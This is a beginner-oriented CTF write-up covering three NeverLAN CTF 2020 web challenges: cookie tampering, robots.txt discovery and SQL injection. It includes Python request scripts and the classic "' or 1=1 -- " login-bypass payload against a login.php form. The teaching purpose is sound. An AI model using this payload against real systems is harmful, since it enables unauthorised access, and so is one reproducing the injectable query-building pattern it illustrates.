








Getting started with CTFs can be intimidating but over the past 5 years we have seen a boom in the number of CTF events aimed at the middle school and high school populations. I call the spring of each year, High School CTF season. One such event annually is the [NeverLAN CTF](https://neverlanctf.com/index). Here is a write up covering all the web challenges from the 2020 version with a little bit of introduction text for those new to CTF and even web technologies.

<!--more-->

I was able to solve all the web challenges (at least the ones that were post prior to Monday morning). The full web challenge board showed six total challenges ranging from 10 to 150 points. Keep reading to see all the write ups or jump ahead to one of interest to you.



### Challenges

* [cookie monster](#cookie-monster)
* [stop the bot](#stop-the-bot)
* [sql breaker](#sql-breaker)

## Cookie Monster ##


Visiting the URL provided in the challenge prompt, we are treated with a basic website. Based on the title, its a good indication that we are interested in the cookies for the website.

According to the site ["What are Cookies?](http://www.whatarecookies.com/), we know the following:

>"Cookies are small files which are stored on a user's computer. They are designed to hold a modest amount of data specific to a particular client and website, and can be accessed either by the web server or the client computer."

The website when we access it says "He's my favorite Red guy" and has a cookie named `Red_Guy's_Name` with a default value of `NameGoesHere`. Since the challenge refers to the Sesame Street character _Cookie Monster_, we can assume they mean the red character on Sesame Street. This of course is _Elmo_. So we will try and set the value of that cookie to "elmo" and see what happens.

There are many ways to do this with various plug-ins to your web browser or even in the developer tools, but I want to take a more programmatic approach.

We can use the python [requests](https://requests.readthedocs.io/en/master/) library to interact with the website and set our cookie value. The code below will do just that, but since I want to be more instructional here I will walk through the whole code.

I will import two libraries to use, obviously `requests` but also the regular expression library (`re`). This will help pull the flag out of the webpage.

```python
import requests
import re
```
Next, I will create my regular expression to match the flag. The challenge prompt says its of the format `flag{....}`. I can create a pattern object called `patt` that will match the word "flag", grab the open curly brace, then create a character group with the `[]` symbols and match anything that is not a closing curly brace. You do this with the `^` (caret) symbol then the closing curly brace. The caret mean **not** the following character. I will use the asterisks to mean zero or more of these characters. And then the closing curly brace. You can use the awesome regular expression visualizer site, _Regexer_ to see this regular expression [here](https://regexper.com/#flag%7B%5B%5E%7D%5D*%7D)

```python
patt = re.compile('flag{[^}]*}')
```

We now will get into the requests portion of the code by defining the uniform resource locator (URL) of the challenge. This just gives us a shortcut and repeatable way to reuse this code for future challenges. Then we will create a session object that we will just call **s**.

```python
url = "https://challenges.neverlanctf.com:1110"
s = requests.session()
```

Now we can use that session object to send a `GET` request to the target website. This function will return a response object that will include information about the interaction with the webserver. This will include the response code, the response and requests headers, and the hypertext markup language (HTML) of the website. Also, in our session object _s_ we now how the cookies that were set by the site.

```python
r = s.get(url)
print s.cookies
```

Python Requests allows us to create a dictionary object to use for the cookies in our interactions with a webserver. So we will create a dictionary with a key of `Red_Guy's_Name` and a value of `elmo`. We then can send another `GET` requests with that cookie and check for the flag in the webpage.

```python
cookies = {"Red_Guy's_name":"elmo"}
r = s.get(url, cookies=cookies)
print r.text
```

We now will use the regular expression pattern we created earlier. Using the _findall_ function of the pattern object, we can pass the html of the website and see if we have a match. If the returned match object exists, we will check the first match for the flag.

```python
m = patt.findall(r.text)
if m:
    print m[0]
```

Doing this gives us the flag of 

**`flag{YummyC00k13s}`**

The full code can be seen here, the website is no longer running after the CTF ended, so this will not work, but it will be a good guide for future challenges.


```python
#!/usr/bin/env python

import requests
import re

patt = re.compile('flag{[^}]*}')

url = "https://challenges.neverlanctf.com:1110"
s = requests.session()
r = s.get(url)

cookies = {"Red_Guy's_name":"elmo"}

r = s.get(url, cookies=cookies)
m = patt.findall(r.text)
if m:
    print m[0]
```

## Stop the Bot ## 



This challenge prompt only provides only the URL of the target. When we visit, we do not see anything interesting. We will rely on the title of the challenge to give us some guidance. The mention of a "bot" for web challenges, should make us think of the **Robots Exclusion Protocol**. 

We can read more about it at the authoritative [source](https://www.robotstxt.org/robotstxt.html) but essentially it's how website administrators can attempt to restrict portions of a website from web crawler or other automated bots. This is **not** a security mechanism, as its only a suggestion to the robots.

>There are two important considerations when using /robots.txt:
>
> * robots can ignore your /robots.txt. Especially malware robots that scan the web for security vulnerabilities, and email address harvesters used by spammers will pay no attention. 
>
> * the /robots.txt file is a publicly available file. Anyone can see what sections of your server you don't want robots to use.
So don't try to use /robots.txt to hide information.

This protocol is implemented by creating a file called `robots.txt` and storing it at root of the website. We can look at this file for our challenge and see that is requesting that we do not go to the file `flag.txt`. When we do, we find the flag. 

Once you know this standard, this is simple to do in the browser. But let's automate this with python again.

We will use our first solve above as a template. We will import our the requests and regular expression libraries, declare our url, use the same regular expression above, create our session object, and retrieve the home page.

```python
import requests
import re

patt = re.compile('flag{[^}]*}')
url = "https://challenges.neverlanctf.com:1140"

s = requests.session()
r = s.get(url)
print r.text
```

Nothing here, but let's go to the `robots.txt` file and see what sites we are "disallowed" to visit. Again, nothing here stops us from going to these sites, its just a recommendation for well-behaved bots. And as _hackers_, we are far from well-behaved.

We will do this with another regular expression. This time we will start with the phrase `Disallow:` followed by a space and then everything to the end. We use the `.` wildcard and the asterisks again (zero or more). This will be a path that we can append to our url to fetch all the disallowed pages.

```python
robot_patt = re.compile('Disallow: (.*)')
disallows = robot_patt.findall(r.text)
```

We now will iterate through all the disallowed paths and check for the flag. (but if we did this manually, we know its at `flag.txt`).

```python
if disallows:
    for link in disallows:
        r = s.get(url + '/' + link)
        m = patt.findall(r.text)
        if m:
           print m[0]
```

This will give us the flag we are looking for of: 

**`flag{n0_b0ts_all0w3d}`**

Full solve below:

```python
#!/usr/bin/env python

import requests
import re

patt = re.compile('flag{[^}]*}')

url = "https://challenges.neverlanctf.com:1140"

s = requests.session()

r = s.get(url)

#print r.text

r = s.get(url + '/robots.txt')

robot_patt = re.compile('Disallow: (.*)')
disallows = robot_patt.findall(r.text)
if disallows:
    for link in disallows:
        r = s.get(url + '/' + link)
        m = patt.findall(r.text)
        if m:
           print m[0]
```

## SQL Breaker ##



This challenge prompt again points us at the URL for the website and provides us the flag format. Checking out the website in our browser shows us a basic page with a menu bar.



The navigation bar link to login takes us to `login.php` which has a simple form that allows users to login to the website. 



Viewing the source code for the website we see that it sends a `GET` request to the same page with parameters values of `username` and `password` aligned to the user provided input on the form. Though, I did not grab a copy of the source code, we can assume it is something like this:

```html
<form action="/login.php" method="get">
  <input type="text" id="username" name="username" value="User Name"><br>
  <input type="password" id="password" name="password" value="Password"><br><br>
  <input type="checkbox" id="remember" name="remember" value>
  <label for="checkbox">Remember Me</label><br>
  <input type="submit" value="Sign In">
</form> 
```

Since this information is being sent to a PHP page, we know that the server is taking the user provided input and checking if a valid user with that password exists. We can assume that valid users are stored in a database and `login.php` is building a *SQL query* to ask the database to return a result from the search. The name of the challenge gives validity to our hypothesis also.

We are test for a _SQL injection_ vulnerability in the `login.php` code.

Here is a slide from an intro to cybersecurity and CTF one-day course I ran at Hogwartz for high school students.



You can also read an introduction to SQL injections [here](https://www.w3schools.com/sql/sql_injection.asp). This is written from the perspective of a web admin, so when you see "you", that is not _you_ as in the hacker, but the defender / system owner.

> SQL injection usually occurs when you ask a user for input, like their username/userid, and instead of a name/id, the user gives you an SQL statement that you will unknowingly run on your database.

Based on the inputs to the form field, we are going to assume the PHP code builds a query using exactly what we provide with little to no _sanitation_.

Something like this, where **U** and **P** are our username and password respectively. 

```
"SELECT * FROM users where username='" + U + "' and password='" + P + "';"
```

This can be read as "get all the columns from the row in the table named _users_ of our database where the username is _U_ and the password is _P_". If there is such a row, then login as that user from the database.

The above sql statement would be vulnerable to an injection, since we could close out the open single parentheses and provide our own sql statements.

For instance, if we just provide a single quote for the user and _guess_ for the password, we would break the statement and get an error from the database. The query would be this:

```sql
SELECT * FROM users where username=''' and password='guess';
```

Even our syntax highlighting on the blog shows this is weird. We do not want the database to create an error, so we can provide the characters to indicate the rest of the line is a comment to get a valid query. A user name of `' -- ` and password of _guess_ will do that for us.

```sql
SELECT * FROM users where username='' -- ' and password='guess';
```

So now our search into the database is "get the user with a blank username". Well, no such user will (or should) exist that meets that query. But you will notice we did not even care about the password this time. 

So now, we will use some boolean magic to get some results. If we use the username of `' or 1=1 -- ` and password of _guess_, then our query becomes.

```sql
SELECT * FROM users where username='' OR 1=1 -- and password='guess';
```

The OR clause means only one of these options needs to be true and since one always equals one, this will return all the rows in the database. We can assume the PHP code will just take the first row from that result and login us into the system. Luckily for us, most of the time the first entry is the first account created which is our administrator.

So back to the website, we will use our malicious username and any password to see what happens. 



And there is our flag. You can see the website welcomes the user named "Admin" so that is who we authenticated as with our malicious payload.

Lets build the python script to exploit this. The only new part here is the creation of a dictionary data type to store the parameters that will be provided to the webserver's `login.php` page to attempt to login.

```python
payload = "' or 1=1 -- "

params = {'username': payload , 'password': 'admin'}
r = s.get(url + '/login.php', params=params)
```

Using our regular expression from before we can get the flag to print out just as shown on the website:

**`flag{Sql1nj3ct10n}`**

The full script can be found here:

```python
#!/usr/bin/env python

import requests
import re

patt = re.compile('flag{[^}]*}')
url = "https://challenges.neverlanctf.com:1160/"

s = requests.session()
r = s.get(url + '/login.php')

payload = "' or 1=1 -- "

params = {'username': payload , 'password': 'admin'}
r = s.get(url + '/login.php', params=params)

m = patt.findall(r.text)
if m:
    print m[0]
```


